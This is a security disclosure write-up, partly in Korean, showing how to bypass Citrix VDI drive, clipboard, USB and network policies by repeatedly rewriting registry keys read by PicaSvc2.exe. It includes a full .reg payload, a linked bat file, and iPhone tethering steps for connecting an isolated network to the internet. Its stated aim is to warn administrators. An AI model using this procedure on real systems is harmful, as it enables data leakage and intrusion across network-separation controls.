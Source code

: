# You can bypass Citrix policies, but it's not a vulnerability.

## Note!!

As a result of discussions with Citrix using [VINCE](https://kb.cert.org/vince/comm/case/1022/) from cert.org, it was concluded that this is not a vulnerability(because os administrative privileges are required), so I can share this information without any concerns. For security reasons, I do not recommend using Xendesktop (VDI) in special environments such as logical network isolation or closed networks for security. If it must be used, please remove administrator privileges and make sure to install security-specific programs.

## Description

The Citrix VDI Agent(PicaSvc2.exe) seems to have a structure in which it receives policies from the Citrix management server, records them in the registry(HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Citrix\1\User\), and reads the policies from the registry to reflect the policies to the user's VDI.  
  
An attacker can bypass the Drive, Network, Clipboard, etc. security policies issued by the Citrix Policy Server through registry manipulation.  

법적인 규제로 인해 망분리 환경 혹은 폐쇄망을 사용해야 할 경우, Citrix Policy를 우회하고  VDI를 인터넷에 강제로 연결시켜 내부망을 인터넷에 노출시키거나 중요 정보를 외부로 유출시킬 수 있습니다.
  
## POC  
1. The attacker logs into VDI and executes a Bat file ([https://windshock.github.io/bypass.zip](https://windshock.github.io/bypass.zip)) that continuously modifies the registry. Then, they close the VDI connection.  
  

Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Citrix\1\User]

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Citrix\1\User\CdmPolicies]
"AutoConnectDrives"=dword:00000001
"AllowCdromDrives"=dword:00000001
"AllowFixedDrives"=dword:00000001
"AllowFloppyDrives"=dword:00000001
"AllowNetworkDrives"=dword:00000001
"AllowRemoveableDrives"=dword:00000001
"UseAsyncWrites"=dword:00000001
"ReadOnlyMappedDrive"=dword:00000000

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Citrix\1\User\IO]
"AutoConnectClientLptPorts"=dword:00000001
"TryMapToClientDriveLetter"=dword:00000001
"AllowFileTransfer"=dword:00000001
"AllowFileUpload"=dword:00000001
"AllowFileDownload"=dword:00000001

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Citrix\1\User\VCPolicies]
"AllowComPortRedirection"=dword:00000001
"AllowDriveRedir"=dword:00000001
"AllowLptPortRedirection"=dword:00000001
"AllowPrinterRedir"=dword:00000001
"AllowClipboardRedir"=dword:00000001
"ReadonlyClipboard"=dword:00000001
"AllowUSBRedir"=dword:00000001
"RestrictSessionClipboardWrite"=dword:00000000
"RestrictClientClipboardWrite"=dword:00000000

2. When the attacker logs back into VDI, PicaSvc2.exe communicates with the Citrix server to receive policies and records the corresponding policies in the registry.  
  
3. While PicaSvc2.exe records and reads the policies, the registry's policy values are tampered with by the Bat file previously executed by the attacker.  
  
4. PicaSv2.exe reads the policies recorded in the registry (which were manipulated by the attacker) and reflects the manipulated policies on Windows.

5. 접속하는 pc의 registry를 변경하면 네트워크가 가능한 하드웨어의 리다이렉트가 가능하다.

6. citrix 기본 정책으로 [usb class FFh](https://www.usb.org/defined-class-codes#anchor_BaseClassFFh) 은 허용되므로 iphone 레더링, 혹은 usb 형태의 wireless card를 이용하면 Usb Redirect가 허용되므로 망분리 환경에서 인터넷으로 네트워크를 연결할 수 있다.

7. iphone 테더링을 위해서는 itunes 설치 파일에서 추출한 드라이버 2개([apple network driver](https://windshock.github.io/applenetworkdriver.zip), [apple usb driver](https://windshock.github.io/appleusbdriver.zip))를 설치해야 한다.

8. citrix 접속 화면에서 iphone을 다시 redirect하면 이제 망분리 환경에서 인터넷 사용이 가능하다.

## Exploit
The attacker would have to be logged into the company's Citrix VDI(windows 10 os) after taking over the company's account.  
  
The VDI is in a state where network, printer, external hard write read, clipboard read and write, etc. are restricted.

## Impact
For companies that use VDI for logical network separation purposes, this vulnerability can lead to internal information leakage and intrusion of internal servers.

DiscoveryUse process  [monitor(https://learn.microsoft.com/en-us/sysintemonitor)](https//learn.microsoft.com/en-us/sysinternals/downloads/procmon))  to monitor the functionality of the citrix agent(PicaSvc2.exe).  
  
Check the registry that the citrix agent uses to store policy settings.  
  
View and manipulate the contents of that registry.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTQ5NDMwODQ3LDM2MTI1NjU3MCw5MDg4ND
QyMTQsLTIxMTIxNTgwODMsMTg3ODEyNDM0OF19
-->